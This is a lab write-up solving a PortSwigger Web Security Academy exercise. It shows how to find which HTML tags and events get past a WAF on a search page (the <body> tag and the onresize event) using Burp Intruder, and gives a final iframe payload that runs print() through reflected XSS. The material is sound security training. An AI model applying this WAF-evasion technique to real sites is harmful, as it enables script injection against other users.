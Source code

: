 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bc32aa06-b5ab-421c-9dae-34d96acf6cf5)

## Solution :

The search functionality is vulnerable to reflected XSS but common XSS payloads won't work since there is a WAF in place.

Our search string is embedded in the apge as follows,

```html
<h1>0 search results for 'hello'</h1>
```

Injecting a normal XSS payload like `<script>alert()</script>` gets blocked by WAF.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/32272d79-89a6-441c-aba4-65e665f52d47)

### Identify which tag is allowed -

Enter the search term as `<>`. Capture the request and send it to intruder. Add *<$$>* as payload position.

```http
GET /?search=<§§> HTTP/1.1
Host: 0a1300d9043edb1c818d61cc009200c0.web-security-academy.net
Cookie: session=PwoeDxVtyiAquLqztnpHiyQnevAosy2n
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1300d9043edb1c818d61cc009200c0.web-security-academy.net/?search=hello
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Go to **XSS cheatsheet** and click **copy tags to clipboard**.Paste it in payloads section & start the attack.

From the results, we can see that **<body>** tag is allowed.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f98a5085-fcc3-4bfb-a83b-e7f2ba66d77e)

### Identify which event is allowed -

Now update the search term to `<body%20=1>`

Add the payload position as follows - `<body%20$$=1>`

Go to XSS Cheatsheet & copy all the events and paste it in payload section.Start the attack.

From the results we understand **onresize** event is allowed.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c29be8cf-f2f2-4734-8389-a627c4af8b7e)

### Identify the right payload - 

Update the search term to `<body%20onresize=1>`.

Now we can use the cheatsheet to find our right payload. In this case it is - **<body onresize="print()">**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/401424c8-455e-4d89-a378-73b8c1084d0a)

Resize the page to trigger an print() function.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0bc38a02-6fd7-4f18-9783-56c1b535a700)

In order to solve the lab, there must not be user interaction to trigger the payload since it is sent to victim.
  The print command needs to be performed automatically without any user interaction. Therefore I need a way to enforce the resize event without requiring the victim to do it.So I include `onload=this.style.width='100px'` to automatically resize the page when it loads . This willl now trigger an XSS .

#### Final payload -

```
<iframe src="https://0a1300d9043edb1c818d61cc009200c0.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
> URL-encode the entire search term to ensure nothing goes amiss inside the iframe.

Store & deliver exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9981577a-0611-4b82-915e-4622eb901da8)
